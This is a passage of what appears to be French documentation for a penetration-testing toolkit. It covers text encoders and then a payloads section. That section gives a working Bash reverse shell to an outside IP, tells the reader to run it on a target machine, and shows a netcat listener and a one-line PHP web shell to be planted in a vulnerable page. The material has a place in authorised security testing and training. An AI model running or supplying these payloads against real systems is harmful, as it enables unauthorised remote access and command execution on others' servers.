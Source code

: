 **ROT13**

* Appliquez le chiffrement ROT13, qui décale les lettres de 13 positions dans l’alphabet.
  * Exemple : "Hello" → "Uryyb".

**HTML Entities**

* Encodez ou décodez des caractères spéciaux en entités HTML.
  * Exemple : "\<script>" → "\<script>".

**URL Encoding/Decoding**

* **Encodage** : Transforme les caractères spéciaux en leur équivalent encodé.
  * Exemple : "Hello World!" → "Hello%20World%21".
* **Décodage** : Convertit les URL encodées en leur version lisible.

***

### **2. Payloads**

**Reverse Shells**

* **Langages Disponibles** :
  * Bash, Python, PHP, PowerShell, Ruby, Perl, Netcat, et bien plus.
* **Configuration** :
  * Renseignez votre adresse IP (listener) et le port à écouter.
  *   Exemple en Bash :

      ```javascript
      bash -i >& /dev/tcp/192.168.1.1/1234 0>&1
      ```
* **Cas d’Usage** :
  * Exécutez ce script sur une machine cible pour établir une connexion inversée (reverse shell) vers votre machine.

**Bind Shells**

* Les payloads de bind shell permettent à la machine cible d’écouter sur un port défini.
  *   Exemple avec Netcat :

      ```yaml
      nc -lvnp 1234
      ```

**PHP Web Shell**

*   Génère un shell web PHP minimaliste :

    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```

    * À insérer dans une page vulnérable pour exécuter des commandes sur le serveur.

***

### **3. Cryptographie**
